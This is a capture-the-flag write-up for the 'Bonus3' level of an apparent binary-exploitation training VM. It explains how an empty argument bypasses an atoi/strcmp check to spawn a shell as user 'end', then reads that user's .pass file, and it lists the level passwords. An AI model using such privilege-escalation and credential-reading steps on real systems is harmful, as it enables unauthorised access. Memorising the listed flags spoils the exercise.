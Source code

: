 # Bonus3 - An easy one

## Local script usage

```shell
Usage: ./Ressources/main.sh
```

## Passwords and token

|        |                                                                    |
| ------ | ------------------------------------------------------------------ |
| bonus3 | `71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587` |
| end    | `3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c` |

## Steps to resolve on VM

Note: We will use `gdb-peda`. You can setup peda with the script: [scripts/installPeda.sh](../../scripts/installPeda.sh)

```shell
(gdb) info functions

0x080484f4  main
```

See our assembly interpretation in [source file](../source.c)

That is an easy one.

To be able to exec the shell, the readed buffer and the first argument have to be equals.

The first argument is converted as integer with `atoi`. This number ends the buffer with a NULL character at this number index.

We just have to put an empty string as argument.

```shell
  argv[1] = ""

=> n = atoi(argv[1]) = 0
=> buf[n] = '\0'

=> strcmp(buf, argv[1]) == 0
```

We can get the last pass !

```shell
~/bonus3 ""
$ whoami
  end
$ cat /home/user/end/.pass
  3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
```

## Sources

### ASM

- [What does the “rep stos” x86 assembly instruction sequence do?](https://stackoverflow.com/questions/3818856/what-does-the-rep-stos-x86-assembly-instruction-sequence-do)

### C

- [Man atoi](https://linux.die.net/man/3/atoi)
- [Man execl](https://linux.die.net/man/3/execl)
- [Man fclose](https://linux.die.net/man/3/fclose)
- [Man fopen](https://linux.die.net/man/3/fopen)
- [Man fread](https://linux.die.net/man/3/fread)
- [Man memset](https://linux.die.net/man/3/memset)
- [Man puts](https://linux.die.net/man/3/puts)
- [Man strcmp](https://linux.die.net/man/3/strcmp)
